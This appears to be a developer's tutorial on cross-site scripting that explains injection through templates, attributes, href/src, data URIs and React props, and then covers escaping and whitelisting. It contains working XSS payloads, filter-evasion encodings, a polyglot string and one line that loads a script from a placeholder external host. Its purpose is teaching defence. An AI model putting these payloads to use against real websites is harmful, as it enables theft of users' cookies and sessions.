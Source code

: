 ```metadata
tags: web, security, xss
```

## web security: xss

`xss` is short for `cross site scripting`. It's very serious security bug that may
 affect all users of your website. Just think about attackers can run any malicious
 script at your website. They may stale user tokens, cookies to there server.

### short summaries
`xss` is not a small topic. Following is a short summaries:

-. be careful of EVERY user input
-. always use context aware template, avoid using those just doing string concatenating
-. escape user input (html escape, javascript escape); you should escape when they'll be
 used but not when received from user (as late as possible)
-. prefer whitelist to blacklist. limit trusted html tag, tag attributes, trusted url prefix.
 You may think of using regex to filter out dangerous content like `javascript`, `script`,
 `eval` and others. But NEVER do this. There are too many tips to escape these kinds of
 regex match.

### a simple xss example
`xss` mostly came from user inputs like username, blog contents, comments and uploaded
 images. Developers often put it in html template like:

    <div>name: {{ name }}</div>

Or injected html using `innerHTML` like following javascript code (frontend):

    document.querySelector('#content').innerHTML = name;

It won't have any problem if they are common content like `David`, `this is a title`.
But what if the attacker builds a special name like `<img src=x onerror='javascript:alert(1);'`?

Then the javascript is executed. Actually attacker can execute any other valid javascript
 code. For example, load an external script:

    <img src=x onerror="s=document.createElement('script');s.src='http://xxx.com/external.js';document.body.appendChild(s);">


Following are common `xss` examples. I uses `alert` but it could be any other code.

### template html xss
It's common to write template like following:

    <div>article title is {{ title }}</div>

What about title is string like `</div><script>alter(1);</script><div>`?

### template js xss
Someone may inject variables to javscript of backend template like following:

```js
<script>
    const user_id = {{ uid }};
    const user_name = '{{ name }}';
</script>
```

What about `uid` is something like `1;alert(123)`? What about `name` is something like
 `'alert(123);`?

### templtae tag attributes
Some tags like `img` support function handlers like `onload`, `onerror` that can will
 execute javscript.

Suppose a template like

    <img src="{{ image_url }}">

What about image_url is something like `invalid_url" onerror="javascript:alert(1);`.
Then it becomes

    <img src="invalid_url" onerror="javascript:alert(1);">

### href/src xss
The `href` attribute supports not only url like `https://`, but also `javascript:xxx`
 and the data uri.

So for template like `<a href="{{ url }}">link</a>`. It can be injected if url is
 something like `javascript: alert(1)`.

Attention, you should not write code that tries to exclude url those begin with `javascript`.
 It is suggested to filter using whitelist that allows those start with `http://` or
 `https://`.

The reason is that prefixes like `jaVasCript:`, `j&#x41;vascript:`, `java&#x0D;script:`
 also work well. You can mix any html escape characters in it. And some special characters
 like `CR(0x0d)`, `LF(0x0a)` can be inserted at any place. So it's hard to check the prefix
 to exclude `javascript:`.

This injection also applies to `src` attribute of `<iframe>`. And the `src` of `iframe`
 also supports the data uri protocol so that following xss also works (the base64 encoded
 content is `script>alert('XSS')</script>`).

    <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">

With base64 encoding, it can avoid many keywords based xss checkers.

A lot of blogs said that you can inject `javascript:` via `src` of `img`. I think it is
 old story. Modern browsers don't allow this, including `svg` with `script` inside it.

### SPA XSS (react, vue)
Nowadays, SPA built by react or vue is very popular. These frameworks often use context
 aware template and they will handle escape automatically for us. There is less chances
 to inject XSS, but less chances doesn't mean no chance.

It's very common to fetch UGC contents via http api and then render them. Example

```js
const Post = ({ content }) => {
    return (<div dangerouslySetInnerHTML={{ __html: content }}></div>)
}
```

It's easy to inject using a content like `<img src=x onerror="javascript:alert(1)";`.

For this case, you may wonder that why not use `<script>XXX</script>` directly. Actually,
 it won't work. The `<script>` tag is parsed and executed when the DOM is initially parsed.
 Those generated after this stage won't be executed. But `<img>` can be loaded at any
 time. Thus why we preferred `<img>` tag to do xss.

And all href/src related injections also works for SPA and react.

And there is also a concealed case when you use user data as props, like following:

```js
const Post = ({ userInfo }) => {
    return (<div { ...userInfo }></div>)
}
```

The `userInfo` in above case is UGC content. So what about user generates it as
 `{ dangerouslySetInnerHTML: { __html: '<malicious html content>' } }`?

### test cases
We need test cases to test our applications. The referenced google xss blog gives a very
 nice test string: `>'>"><img src=x onerror=alert(0)>`.

#### xss polyglot payload
A polyglot payload can inject at many different contexts. Let's see following example:

    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(1) )//%0D%0A%0d%0a//</stYle>/</titLe>/</teXtarEa>/</scRipt>/--!>\x3csVg/<sVg/oNloAd=alert(2)//>\x3e

-. It can inject the href attribute. For this case, the `/*...*/` is comment and will be
 ignored. The first alert will effect.

-. The ** ' " \` ** followed by a `/*` will close the quote in tag attribute or js and start
 a comment. This comment will be closed by `*/` before the `oNcliCk`. So the first alert will
 effect too. This hits template like `<a style="{{ style }}">`.

-. The `</stYle>/</titLe>/</teXtarEa>/</scRipt>/--!>` will close `<style>`, `<title>`,
 `<textarea>`, `<script>` and `<!--`. So that the second alert will work.

In above case, we found that it mixes upper case characters and lower case characters, like
 `jaVasCript`. It also use `\x3c` which is hex encode of `<`. By this way, it can evade those
 css checkers that simply do some string matchings but not context aware handling.

You can see details about this polyglot xss at
 [HackVault Wiki](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot).

### prevent xss
We need to check and escape user inputs to prevent xss. You should use different escape
 according to different context.

#### html escape
We can do html escape avoid html injection. You can replace those dangerous characters to
 html entities. Like

    <         to          &lt;
    >         to          &gt;
    "         to          &quot;    OR   &#34;
    '         to          &#39;
    &         to          &amp;

By this way, these characters will be parsed and displayed as normal text characters.

#### js escape
You need to do js escape in javascript context. For js code like `const user_name = "{{ name }}";`.
 The quote will be closed unexpectedly if name contains `"`. And then xss ejection happens.

To avoid this, we can escape characters like ** " ' \` \\ / ** to avoid this. Like replace
 `"` with `\U0022`.

Since javascript is contained in html context. You still needs to do html escape after
 js escape.

### xss resources
Google has a very interesting game-like site that you can try to practice XSS to
 improve knowledge about XSS. Try it at [google XSS game](https://xss-game.appspot.com/).

You really should have a look at
 [OWASP XSS filter evasion cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).
 It provides many nice xss tests.

### references
-. [google application security: xss](https://www.google.com/about/appsecurity/learning/xss/index.html)
-. [OWASP: XSS prevention cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
-. [OWASP: XSS filter cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
-. [github HackVault: xss polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
